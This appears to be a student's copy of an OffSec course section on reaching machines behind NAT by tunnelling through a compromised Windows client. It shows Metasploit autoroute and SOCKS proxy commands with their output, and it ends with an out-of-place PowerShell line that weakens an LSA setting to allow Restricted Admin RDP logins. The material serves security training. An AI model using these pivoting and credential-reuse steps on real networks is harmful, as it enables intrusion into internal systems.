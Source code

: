 In this section, we'll use reverse proxying to access machines that are protected by edge firewalls and _Network Address Translation_ (NAT)[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5380-1) configurations.

NAT is typically implemented at the company edge firewall and segments internal and external IP addresses. By design, this prevents us from gaining access to internal machines from the Internet.

For example, if we have compromised an internal workstation through a phishing attack as shown in Figure 5, we will not be able to obtain a Remote Desktop session on that system even if we have the clear text credentials.

However, we could establish an egress network connection from the compromised internal client to our attack machine and leverage this connection as a tunnel for other traffic, such as an RDP session.

![[OffSec/OSEP/Course/z. images/6f0eee097817f1f3976031a9cbc2fb3a_MD5.jpg]]

Figure 5: Direct access to internal computers is blocked from the Internet

This is certainly not a new technique, but the concept and implementation can be somewhat complicated. We'll explore a few solutions. First, we'll use Meterpreter's built-in reverse proxy feature and then we'll demonstrate a standalone solution.

Note that in the lab for this module, there is no NAT or firewall in place and we use reverse tunneling to demonstrate and practice the concept.

To begin, we must have an established shell on the target system, which in this case is the Windows 10 client. To simulate a compromise, we will log in to the machine as the _admin_ user and reuse our existing PowerShell or C# tradecraft to launch a 64-bit staged Meterpreter agent that will connect to our Kali attacking machine.

Once the Meterpreter session is active, we'll send it to the background and switch to the _multi/manage/autoroute_ module.[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5380-2) This will allow us to configure a reverse tunnel through the Meterpreter session and use that with a _SOCKS proxy_[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5380-3) as shown in Listing 9.

```
msf5 exploit(multi/handler) > use multi/manage/autoroute

msf5 post(multi/manage/autoroute) > set session 1
session => 1

msf5 post(multi/manage/autoroute) > exploit

[!] SESSION may not be compatible with this module.
[*] Running module against CLIENT
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.168.120.0/255.255.255.0 from host's routing table.
[*] Post module execution completed

msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a

msf5 auxiliary(server/socks4a) > set srvhost 127.0.0.1
srvhost => 127.0.0.1

msf5 auxiliary(server/socks4a) > exploit -j
[*] Auxiliary module running as background job 0.

[*] Starting the socks4a proxy server
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit